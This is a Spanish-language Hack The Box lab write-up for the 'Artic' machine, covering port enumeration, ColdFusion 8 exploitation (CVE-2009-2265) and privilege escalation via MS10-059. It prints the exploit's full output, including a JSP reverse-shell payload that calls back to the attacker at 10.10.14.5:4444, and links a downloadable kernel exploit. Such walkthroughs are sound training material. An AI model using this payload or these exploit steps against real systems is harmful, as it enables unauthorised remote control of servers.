

# 🏳 Artic

<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/9">Artic</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.11</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows Server 2008 R2</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>Colfusion8</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2009-2265">CVE 2009-2265</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio realizando un reconocimiento con NMAP a todos los puertos de la máquina Artic.

```bash
nmap -sC -sV -sT 10.10.10.11 -p-
```

<figure><figcaption></figcaption></figure>

Encontramos el puerto 8500 abierto el cual no conseguimos localizar que servicio está funcionando en él. Lanzamos una petición al servicio y nos encontramos lo siguiente.

<figure><figcaption></figcaption></figure>

Cuando entramos a la web en el puerto 8500 encontramos:

<figure><figcaption></figcaption></figure>

Siguiendo la ruta 10.10.10.11:8500/CFIDE/administrator podemos observar Coldfusion version 8, la cual vamos a intentar atacar.

<figure><figcaption></figcaption></figure>

### 2. Explotación

En este paso vamos a buscar un exploit para aprovecharnos del CVE 2009-2265 y usaremos el exploit que nos proporciona exploit-db realizado por PERGYZ para ayudarnos de ello. Este requiere alguna configuración en el código. Para ello lo abrimos y modificamos la información.

<figure><figcaption></figcaption></figure>

Una vez hecho esto ejecutamos el código python y obtenemos acceso a la máquina apareciendonos algo similar a esto.

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# python 50057.py

Generating a payload...
Payload size: 1496 bytes
Saved as: acd1c28c77684b0289eac27dd92e36b6.jsp

Priting request...
Content-type: multipart/form-data; boundary=d5515b17acb1451aadb54a6e1cc4eee6
Content-length: 1697

--d5515b17acb1451aadb54a6e1cc4eee6
Content-Disposition: form-data; name="newfile"; filename="acd1c28c77684b0289eac27dd92e36b6.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream vd;
    OutputStream jC;

    StreamConnector( InputStream vd, OutputStream jC )
    {
      this.vd = vd;
      this.jC = jC;
    }

    public void run()
    {
      BufferedReader hq  = null;
      BufferedWriter u5p = null;
      try
      {
        hq  = new BufferedReader( new InputStreamReader( this.vd ) );
        u5p = new BufferedWriter( new OutputStreamWriter( this.jC ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = hq.read( buffer, 0, buffer.length ) ) > 0 )
        {
          u5p.write( buffer, 0, length );
          u5p.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( hq != null )
          hq.close();
        if( u5p != null )
          u5p.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.5", 4444 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--d5515b17acb1451aadb54a6e1cc4eee6--


Sending request and printing response...


                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 0, "/userfiles/file/acd1c28c77684b0289eac27dd92e36b6.jsp/acd1c28c77684b0289eac27dd92e36b6.txt", "acd1c28c77684b0289eac27dd92e36b6.txt", "0" );
                </script>


Printing some information for debugging...
lhost: 10.10.14.5
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: acd1c28c77684b0289eac27dd92e36b6.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.11] 49282

```

<figure><figcaption></figcaption></figure>

En este punto podremos obtener acceso a la flag del usuario tolis y tendremos que empezar a planificar la escalada de privilegios.

### 3. Escalada de privilegios Root

Llegado a este punto ejecutamos systeminfo para ver en profundidad que sistema estamos trabajando.

<figure><figcaption></figcaption></figure>

Estudiando el sistema con el que estamos funcionando vemos la posibilidad de explotar la vulnerabilidad con varios exploits. Nosotros utilizaremos el [exploit ](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe)el cual nos permite explotar el [MS 10-059](https://support.microsoft.com/es-es/topic/ms10-059-existen-vulnerabilidades-en-la-caracter%C3%ADstica-de-seguimiento-de-servicios-que-podr%C3%ADan-permitir-la-elevaci%C3%B3n-de-privilegios-ebc5aca9-39f2-9c6a-fe20-bab9d27eb710) y generar una escalada de privilegios. Por ello vamos a montar un servidor de Python y descargarnos el compilado en el equipo infectado.

<figure><figcaption></figcaption></figure>

Recogemos la shell del exploit desde nuestro netcat escalando a privilegios de administrador y consguiendo acceso a la flag de root.

<figure><figcaption></figcaption></figure>



Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)

